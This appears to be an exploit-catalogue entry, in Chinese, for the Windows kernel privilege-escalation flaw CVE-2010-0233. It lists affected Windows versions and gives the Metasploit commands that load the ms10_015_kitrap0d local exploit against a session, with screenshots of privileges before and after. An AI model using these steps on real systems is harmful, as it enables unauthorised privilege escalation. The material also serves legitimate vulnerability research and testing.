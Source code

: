 ### CVE-2010-0233

#### 描述

内核中的双重免费漏洞允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  |         | SP2    |                    |
| Windows Server 2008 | X64/X86          |         |        |                    |
| Windows Vista       |                  |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         |        |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### 利用方式

编译环境

- nmake 2013

测试系统Windows Server 2003 SP2 x86

![25](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2010-0233_win2003_x86.gif)

> msf利用

测试系统Windows Server 2003 SP2 x86，执行以下代码

```
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 3
run
```

可以看到当前权限是最低的

![image-20200823123824229](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2010-0233_win2003_x86_msf.png)

然后执行命令提权

![image-20200823123945054](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2010-0233_win2003_x86_msf2.png)